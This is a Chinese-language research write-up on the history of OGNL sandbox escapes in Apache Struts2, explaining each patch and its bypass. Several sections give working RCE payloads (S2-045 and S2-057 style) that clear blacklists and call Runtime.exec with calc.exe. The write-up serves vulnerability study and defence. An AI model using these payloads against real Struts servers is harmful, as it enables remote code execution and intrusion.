- [Ognl沙盒逃逸](#ognl沙盒逃逸)
  - [OGNL结构](#ognl结构)
  - [沙盒逃逸历史](#沙盒逃逸历史)
    - [_memberAccess](#_memberaccess)
    - [Before 2.3.14.1](#before-23141)
    - [After 2.3.14.1](#after-23141)
    - [In  2.3.20~2.3.29](#in--23202329)
    - [Before 2.5.10](#before-2510)
    - [Before 2.5.13](#before-2513)
    - [Before 2.5.16](#before-2516)
    - [Before 2.5.25](#before-2525)
    - [Before 2.5.29](#before-2529)
  - [参考](#参考)
# Ognl沙盒逃逸
## OGNL结构
在OGNL中表达式的执行是有一个执行环境的,这个环境称为标准命名上下文(context map),而这个上下文环境是一个Map结构.  
而且在上下文中有一个默认的根对象,在语法上通过表达式可以直接访问根对象的属性而不需要添加前缀.,但访问上下文中的其它对象时则需要在属性名前添加`#`符号,当不使用`#`访问属性时,OGNL会默认在根对象中寻找该属性,只有使用`#`时OGNL才会在context map中寻找该属性.  
在Struts中,context map被设置为了一个ActionContext,而根对象则是ValueStack,同时在ActionContext中除了根对象还存放了一些和Application,Session,action,requests,params,attr等其它Map结构的对象.    
  
action对象表示了当前请求的一些信息,而且action对象总是会被压入ValueStack中,所以访问action对象的属性并不需要用`#`.  
而要获取到ActionContext可以通过`ActionContext`内某些对象的`getContext`静态方法来得到.  
以ValueStack为例:  

## 沙盒逃逸历史
### _memberAccess
SecurityMemberAccess是ValueStack中的一个对象为MemberAccess的子类.  
  
用于控制OGNL表达式能做什么,其中的`allowStaticMethodAccess`属性设置为false,表示不允许访问静态方法,导致无法直接通过getRuntime()执行命令,同时还有一些如`allowPrivateAccess`,`allowProtectedAccess`和`allowPackageProtectedAccess`来控制 OGNL如何访问 Java 类的方法和成员.  

  
可以看到默认不允许访问static方法,private方法和protected方法.  
### Before 2.3.14.1
而在 2.3.14.1之前`_memberAccess`对象是可以访问的的,导致我们可以直接修改`_memberAccess[allowStaticMethodAccess]`为ture,从而访问到getRuntime()执行命令.  

poc:`%{(#_memberAccess['allowStaticMethodAccess']=true).(@java.lang.Runtime@getRuntime().exec('calc.exe'))}`
可以看到`allowStaticMethodAccess`被修改为True.
  
### After 2.3.14.1
在2.3.14.1之后`_memberAccess['allowStaticMethodAccess']`变成立final类型,导致无法再修改该属性.  
但其实`_memberAccess`中并没有限制访问public方法,所以直接new一个ProcessBuilder即可.

### In  2.3.20~2.3.29
在2.3.20之后,添加了`excludedClasses`,`excludedPackageNames`和`excludedPackageNamePatterns`作为黑名单,将java.lang,ognl,javax三个包加入了黑名单.
  
然而在Ognl.OgnlContext中还有一个默认的`DefaultMemberAccess`,在这个`DefaultMemberAccess`中并没有通同步之前的黑名单机制,并且可以访问静态方法  
  
  
其只有默认的安全限制,直接替换`_memberAccess`为`DefaultMemberAccess`即可.  
poc:`%{(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(@java.lang.Runtime@getRuntime().exec('calc.exe'))}`.  

### Before 2.5.10
在2.3.30中,又新增了两个黑名单为`ognl.MemberAccess,ognl.DefaultMemberAccess`,导致无法访问到`DefaultMemberAccess`.  
  
   
在Context map还有一个可利用的属性为`com.opensymphony.xwork2.ActionContext.container`  
  
其定义为  
```java
public static final String CONTAINER = "com.opensymphony.xwork2.ActionContext.container";
```
其中一个`getInstance`方法如下,用于返回执行环境中的一个实例.    
  
而初始化`securityMemberAccess`的属性时是通过`OgnlUtil`的属性进行设置的.  

且`OgnlUtil`是单实例模式,所以只用通过`OgnlUtil`访问到`excludedClasses`再执行HashSet的clear方法将黑名单的类置空即可再次访问到`DefaultMemberAccess`.  
poc:`%{(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.excludedClasses.clear()).(#ognlUtil.excludedPackageNames.clear()).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('calc.exe'))}`  
    
这也是s2-045的攻击方式.
### Before 2.5.13
在2.5.10之后excludedClasses和excludedPackageNames都是不可变的了,为UnmodifiableSet,无法再调用其clear方法来清空黑名单.  
  
但是虽然中Set黑名单集合里面的元素无法改变,但我们可以直接调用ognlUtil的setExcludedPackageNames和setExcludedClasses来创建两个新的Set黑名单来直接修改Set本身.

poc:`%{(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames('')).(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('calc.exe'))}`  

### Before 2.5.16
在2.5.13中则直接删除了对`context map`的访问权限,导致无法通过`context map`获取到`container`.  
  
但是从官方文档可以看到不止一个地方存有context对象,在context map的某些属性中保留了对context map的引用.    
  
以attr对象为例,从其`struts.valueStack`属性中还是可以间接获取到context map.  
  
因此只需要在Poc中修改context的来源即可.  
poc:`%{(#con=#attr['struts.valueStack'].context).(#container=#con['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.setExcludedClasses('')).(#ognlUtil.setExcludedPackageNames('')).(#con.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(@java.lang.Runtime@getRuntime().exec('calc.exe'))}`   
  
这也是S2-057的RCE方法
### Before 2.5.25
参考CVE-2020-17530(s2-061).
### Before 2.5.29
参考CVE-2021-31805(s2-062).
## 参考  
https://securitylab.github.com/research/ognl-apache-struts-exploit-CVE-2018-11776/